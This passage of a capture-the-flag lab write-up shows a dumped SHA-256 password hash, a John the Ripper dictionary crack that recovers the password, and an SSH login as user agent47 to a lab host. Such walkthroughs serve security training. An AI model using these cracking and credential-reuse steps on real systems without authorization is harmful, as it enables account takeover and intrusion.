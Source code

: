 In the users table we have an hashed password of:

```shell
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```

An username of:

```shell
agent47
```

And one more detail, another table called;

```shell
post
```

---

# Lateral Movement to user

## Local Enumeration

Now we have a password hash we can use the tool John The Ripper to crack the password, first copy the hash to a file (hash.txt) and run the following;

```shell
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

Results;

```shell
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=6
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)     
1g 0:00:00:00 DONE (2023-05-13 09:21) 7.692g/s 22685Kp/s 22685Kc/s 22685KC/s vrunip6..vainlove
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

The password is 'videogamer124'

As we have both an username and password we can now attempt to log in via SSH and begin further enumeration.

```shell
└─$ ssh agent47@10.10.116.163                
The authenticity of host '10.10.116.163 (10.10.116.163)' can't be established.
ED25519 key fingerprint is SHA256:CyJgMM67uFKDbNbKyUM0DexcI+LWun63SGLfBvqQcLA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.116.163' (ED25519) to the list of known hosts.
agent47@10.10.116.163's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
```